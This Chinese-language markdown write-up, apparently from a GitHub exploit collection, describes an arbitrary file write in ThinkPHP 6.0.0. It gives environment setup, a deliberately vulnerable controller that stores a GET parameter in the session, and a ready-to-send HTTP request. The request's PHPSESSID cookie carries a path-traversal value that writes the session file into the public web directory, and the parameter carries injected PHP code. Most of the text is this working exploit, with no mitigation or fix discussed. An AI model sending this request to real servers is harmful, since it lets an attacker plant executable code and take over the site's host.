


## thinkphp6 任意文件写入

# 环境

`composer create-project topthink/think tp60`

将 tp60/composer.json 文件的 "topthink/framework": "^6.0.0" 改成 6.0.0 版本，并执行如下命令。

`composer update`

`./think run --host=0.0.0.0 --port=8000`

# 前提
`app/middleware.php`  开启session功能

```
<?php
// 全局中间件定义文件
return [
    // 全局请求缓存
    // \think\middleware\CheckRequestCache::class,
    // 多语言加载
    // \think\middleware\LoadLangPack::class,
    // Session初始化
//     \think\middleware\SessionInit::class
    \think\middleware\SessionInit::class
];

```
`app/controller/Index.php` 

```
<?php
namespace app\controller;

use app\BaseController;

class Index extends BaseController
{
    public function index()
    {

        session('thinkphp', $_GET['test']);
        return 'Thinkphp 任意文件操作';
    }
}
```

# 利用
```
GET /index?test=<?php%20phpinfo();?>// HTTP/1.1
Host: pentest.com:8000
Cache-Control: max-age=0
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,zh-TW;q=0.7
Connection: close
cookie:PHPSESSID=../../../../public/test12325.php
X-XSS-Protection:0
```



